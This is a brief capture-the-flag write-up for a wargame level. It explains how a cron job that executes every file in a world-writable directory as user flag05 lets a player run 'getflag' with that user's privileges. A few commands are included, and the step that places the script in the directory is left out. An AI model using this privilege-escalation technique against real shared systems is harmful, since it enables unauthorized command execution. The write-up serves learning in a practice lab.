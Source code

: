 ## **Level05 - Solution**

When connecting to level 05, the message "You have new mail" appears on the standard output. Upon further investigation, we find a directory `/rofs/var/mail` which contains a file named `level05`. This file corresponds to a cron job:

```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

This job runs the mentioned script every 2 minutes with `flag05`'s privileges. The script looks like this:

```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
  (ulimit -t 5; bash -x "$i")
  rm -f "$i"
done
```

It executes and deletes all the files contained in the specified directory. Therefore, we can have `flag05` execute a file by placing it in that directory. For example, use the following commands:

```bash
getflag > /tmp/flag.txt
chmod +x script.sh
```

After 2 minutes, we can check the directory, and the file will contain the result of the `getflag` command.
